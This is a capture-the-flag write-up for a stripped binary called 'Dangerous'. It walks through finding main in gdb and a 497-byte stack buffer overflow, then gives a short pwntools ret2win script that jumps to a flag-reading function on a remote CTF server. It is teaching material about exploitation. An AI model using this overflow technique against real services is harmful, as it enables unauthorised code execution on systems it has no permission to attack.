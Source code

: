 # Dangerous

The binary is stripped of symbols, and even radare2 cannot resolve main, so this is a little difficult.

I stepped through in gdb in \_\_libc\_start\_main until the call rax instruction.

At this point, rax was 0x4011d6, indicating to us that this was the address of main. I used x/100i to view all the instructions at this point, and found a small little buffer overflow.

We can use pattern.py to find the offset till the return address is 497.

Looking a little past main, there appears to be another function. It calls open, then read, then puts.

If we do some calculation on RIP and use x/s, we find that it calls open on flag.txt! This must be the flag function.

Essentially, we have a simple ret2win exploit. Overwrite ret address with the flag function.

```python
from pwn import *
NUM_TO_RET = 497
flag =  0x401312
padding = b'A' * NUM_TO_RET
#p = process("./dangerous")
p = remote("jh2i.com", 50011)
p.sendline(flat(padding, flag, word_size=64))
p.interactive()
```


